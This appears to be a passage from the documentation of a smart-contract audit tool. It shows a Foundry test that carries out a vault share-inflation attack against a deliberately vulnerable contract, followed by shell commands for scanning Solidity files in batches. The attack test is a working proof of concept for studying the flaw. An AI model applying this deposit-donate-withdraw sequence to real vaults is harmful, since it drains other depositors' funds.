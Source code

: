 ```solidity
        vault = new VulnerableVault();
        vm.deal(attacker, 100 ether);
        vm.deal(victim, 1000000 ether);
    }

    function testInflationAttack() public {
        // 1. Attacker deposits minimal amount
        vm.startPrank(attacker);
        vault.deposit{value: 1}();
        
        // 2. Attacker donates to inflate share price
        payable(address(vault)).transfer(1000 ether);
        vm.stopPrank();
        
        // 3. Victim deposits (loses funds due to rounding)
        vm.prank(victim);
        vault.deposit{value: 2000 ether}();
        
        // 4. Attacker withdraws all shares
        vm.prank(attacker);
        uint256 shares = vault.balanceOf(attacker);
        vault.withdraw(shares);
        
        // Verify attacker profited
        assertGt(attacker.balance, 100 ether);
    }
}
```

**3. Run the Test**
```bash
forge test --match-test testInflationAttack -vvvv
```

## Working with Large Codebases

### Analyze Specific Contracts

```bash
# Only analyze vault contracts
find contracts/ -name "*Vault*.sol" -exec ./hunt {} \;

# Analyze by directory
./hunt contracts/core/
./hunt contracts/governance/
./hunt contracts/periphery/
```

### Batch Analysis

```bash
#!/bin/bash
# analyze_all.sh

for file in contracts/**/*.sol; do
    echo "Analyzing $file..."
    ./hunt "$file" --quick -o "reports/$(basename $file .sol)_report.json"
done

# Combine results
jq -s 'map(.vulnerabilities) | flatten | {vulnerabilities: .}' reports/*.json > combined_report.json
```
